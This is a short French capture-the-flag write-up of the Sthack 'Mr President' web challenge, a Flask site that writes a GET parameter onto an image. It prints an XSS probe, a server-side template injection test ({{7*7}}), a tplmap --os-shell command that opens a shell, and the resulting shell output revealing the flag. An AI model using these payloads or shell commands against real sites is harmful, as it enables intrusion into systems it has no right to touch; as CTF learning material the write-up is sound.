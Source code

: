 ** WEB - Mr President**

Le site mis à disposition est un générateur de texte sur une image de Trump.

__Résolution :__

Le mot qui est passé à la variable name en GET est affiché en gros sur l'image :

```
http://mrpresident.sthack.fr/banish?name=Ryan
```

On repère rapidement une XSS :

```javascript
http://mrpresident.sthack.fr/banish?name=<script>alert(1)</script>
```

Aucun formulaire de contact donc nous passons à autre chose.

Si nous appelons une page qui n'existe pas le site nous retourne comme information qu'il est développé avec flask.

On tente :

```
http://mrpresident.sthack.fr/banish?name=Ryan{{7*7}}
```

Nous obtenons comme retour  : Ryan49

Nous avons donc une template injection :

[TPLMAP](https://github.com/epinna/tplmap)

On récupère un shell avec TPLMAP:

```BASH
./tplmap.py --os-shell -u 'http://mrpresident.sthack.fr/banish?name=Ryan'
```

On cherche le flag :


```BASH
posix-linux2 $ ls -lash /flag/is/here
total 28
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 .
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 ..
     4 -r--------    1 root     root          17 Mar  4 23:09 flag
     4 -rw-r--r--    1 root     root         198 Mar  4 23:13 getflag.c
    12 -rwsr-xr-x    1 root     root       10.5K Apr  5 12:35 runme
```

On affiche le flag :

```BASH
posix-linux2 $ cd /flag/is/here/;./runme
Y0u_G0t_TrUmp3d!
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```